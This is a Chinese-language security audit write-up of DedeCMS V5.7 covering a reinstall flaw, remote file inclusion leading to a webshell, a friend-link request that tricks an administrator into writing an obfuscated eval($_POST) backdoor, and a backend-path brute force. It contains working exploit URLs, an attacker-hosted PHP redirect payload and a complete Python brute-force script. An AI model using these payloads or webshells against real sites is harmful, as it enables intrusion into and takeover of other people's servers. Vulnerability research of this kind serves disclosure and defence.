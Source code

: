 # dedeCMS代码审计

## 测试环境

DedeCMS-V5.7-GBK-SP1

以及

DedeCMS-V5.7-UTF8-SP2

## dedeCMS重装漏洞

配合Apache解析漏洞，访问`http://y4y4.top/install/index.php.bak`他会按照php解析具体原理可以百度Apache解析漏洞，接下来我们来看,如果文件存在则不允许访问，可是前面有个比较蛋疼的foreach运行我们进行变量覆盖

![](pic/1.png)

因此我们传入`/install/index.php.bak?insLockfile=1`

![](pic/2.png)

## 远程文件包含漏洞Getshell

首先给出利用代码

前提是`/install/index.php.bak?insLockfile=1`这个能够成功，也就是我们上面的那个漏洞

除此以外我们还需要在远端web目录下写一个`/dedecms/demodata.y4.txt`

接下来访问`/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php`，最后访问`/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=y4.php&updateHost=your-domain`即可成功生成`y4.php`实现getshell

下面进行漏洞分析，当`$step=11`以后进入这个函数

![](pic/3.png)

我们看一下`require_once('../data/admin/config_update.php');`的文件内容，就两行

```php
$updateHost = 'http://updatenew.dedecms.com/base-v57/';
$linkHost = 'http://flink.dedecms.com/server_url.php';
```

逻辑很简单，第二步是下载文件到本地，看看payload，`/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php`，最后访问`/install/index.php.bak?`我们故意搞一个不存在的文件所以内容是空，配合变量覆盖我们把`config_update.php`这个文件清空，因此第三步我们便可以任意进行变量覆盖，从而Getshell，分析完毕

## 通过友情链接申请实现Getshell

版本：20170303以下

在测试漏洞前首先需要在我们的VPS下面创建这样一个文件

```php
<?php
$referer = $_SERVER['HTTP_REFERER'];
$dede_login = str_replace("friendlink_main.php","",$referer);//去掉friendlink_main.php，取得dede后台的路径
//拼接 exp
$muma = '<'.'?'.'@'.'e'.'v'.'a'.'l'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'x'.'\''.']'.')'.';'.'?'.'>';
$exp = 'tpl.php?action=savetagfile&content='. $muma .'&filename=y4tacker.lib.php';
$url = $dede_login.$exp;
header("location: ".$url);
exit();
?>
```

接下来我们去申请友情链接

![](pic/4.png)

一旦管理员点击

![](pic/5.png)

之后则会在`\include\taglib`下面生成我们的shell`y4tacker.lib.php`，下面进行分析，我们看在点击以后url是`http://y4y4.top/tpl.php?action=savetagfile&content=%3C?@eval($_POST[%27y4%27]);?%3E&filename=y4tacker.lib.php`

首先是这个CMS有一个`common.inc.php`里面是和第一个一样有

![](pic/6.png)

`$action=='savetagfile'`执行这里

![](pic/7.png)

能看到对内容`$content`没做过滤，`stripslashes`函数只是为了去除反斜杠，因而实现了任意文件的写入，当然文件名要满足正则表达式`#^[a-z0-9_-]{1,}\.lib\.php$#i`只要是`.lib.php`后缀即可

## 后台目录爆破漏洞

为了测试这个漏洞我们把后台地址改复杂一点，把exp放在最后，利用原理是php内核的漏洞 -- win内核，与上次不一样这一次配合的是`getimagesize`同样的道理，上一个漏洞里面讲过`common.inc.php`里面存在变量覆盖漏洞，这次也是需要配合他

![](pic/8.png)

首先调试，跟踪到`include/uploadsafe.inc.php`

![](pic/9.png)

foreach遍历`$_FILES`的键值对,要求`_FILES[$_key][$k]`要有值，并且`_FILES`的键不能出现`cfg_`或`GLOBALS`，之后我们跳过那部分不重要的代码，实现了对`$gyarmy`的赋值

![](pic/10.png)

之后设置白名单绕过即可

![](pic/11.png)

从而能够实现配合<<检查文件是否存在

接下来我们就看看`$_FILES`如何实现赋值操作,

![](pic/12.png)

看到这个foreach循环不难想到能实现变量覆盖但是在它的上面还有个`CheckRequest`函数，我们来审计一下

![](pic/13.png)

如果是数组那么进行foreach对数组降维之后再调用CheckRequest，之后若是字符串则要求不为空并且不能包含`cfg_|GLOBALS|_GET|_POST|_COOKIE|_SESSION`，与我们的$_FILES无关，因此可以进行变量覆盖，分析完毕

### EXP

```python
#!/usr/bin/env python
import requests
import itertools
characters = "abcdefghijklmnopqrstuvwxyz0123456789_!#"
back_dir = ""
flag = 0
url = "http://y4y4.top/tags.php"
data = {
    "_FILES[mochazz][tmp_name]" : "./{p}<</images/adminico.gif",
    "_FILES[mochazz][name]" : 0,
    "_FILES[mochazz][size]" : 0,
    "_FILES[mochazz][type]" : "image/gif"
}

for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        data["_FILES[mochazz][tmp_name]"] = data["_FILES[mochazz][tmp_name]"].format(p=pre)
        print("testing",pre)
        r = requests.post(url,data=data)
        if "Upload filetype not allow !" not in r.text and r.status_code == 200:
            flag = 1
            back_dir = pre
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
            break
        else:
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
print("[+] 前缀为：",back_dir)
flag = 0
for i in range(30):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        data["_FILES[mochazz][tmp_name]"] = data["_FILES[mochazz][tmp_name]"].format(p=back_dir+ch)
        r = requests.post(url, data=data)
        if "Upload filetype not allow !" not in r.text and r.status_code == 200:
            back_dir += ch
            print("[+] ",back_dir)
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"
            break
        else:
            data["_FILES[mochazz][tmp_name]"] = "./{p}<</images/adminico.gif"

print("后台地址为：",back_dir)
```

